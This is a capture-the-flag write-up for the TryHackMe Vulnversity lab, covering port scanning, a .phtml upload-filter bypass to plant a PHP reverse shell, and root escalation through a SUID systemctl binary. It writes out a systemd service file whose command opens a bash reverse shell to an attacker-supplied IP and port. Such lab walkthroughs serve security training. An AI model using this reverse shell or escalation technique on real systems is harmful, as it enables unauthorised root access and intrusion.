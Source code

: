 # CTF - Vulnversity / Tryhackme

# 1. Recon

Nmap result :

PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 3.0.3
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack ttl 63 Squid http proxy 3.5.12
3333/tcp open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))

First, on port 21, we can see an ftp server running.
Trying to connect to it anonymously failed.

On port, 22, an ssh server is running but we don't have any creds.

port 139/445 run a samba server, using the enum4linux script, we can discover a new user :
-> S-1-22-1-1000 Unix User\bill (Local User)



# 2. Web

The main website is running on port 3333, it's a replication of a university website.
Using gobuster, we can find thoses directories :

/images               (Status: 301) [Size: 318] [--> http://10.10.81.62:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.81.62:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.81.62:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.81.62:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.81.62:3333/internal/]
/server-status        (Status: 403) [Size: 301]

/internal looks interresting.

On this page, we can upload a file.
Trying using a .php, .jpg file will throw an error. "Extension not allowed"

Using burp suite, we can try to find a bypass to upload a php reverse shell on the website.
When trying somes extensions, we can find that ".phtml" can go throught the filter.
In the /internal directory, gobuster find the /uploads directory where we can trigger our php script.

With a listener in place, we can catch our reverse and connect in the www-data user.



# 3. Exploration

Navigating on the system, we can access the home directory of the bill user. Where we can find the user.txt

It's now time to search for a privesc. After investigating crontab, sudo -l, ... we can find interesting SUID files

> find / -perm -u=s 2> /dev/null

/usr/lib/squid/pinger
/bin/systemctl

Googling /bin/systemctl suid, we can find on GTFObins that systemctl can be use to gain root access.
We will create a new service, which will execute a reverse shell, and using the systemctl with SUID bit, we will start the service, which
will send us a root shell.



# 4. Privesc

We can use the method A1vinSmith : https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740
First, we create our evil service

In a file called evil.service : 

[Unit]
Description=Getting root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YourIP/YourPort 0>&1'

[Install]
WantedBy=multi-user.target



The ExecStart parameter is where you can set your command.
Setup a listener then enable the servic
If the path to systemctl is different, modify it.
> /bin/systemctl enable /path/to/your/service/evil.service

> /bin/systemctl start evil



# 5. Root

Now we have root, we can access the /root/root.txt and get the flag.





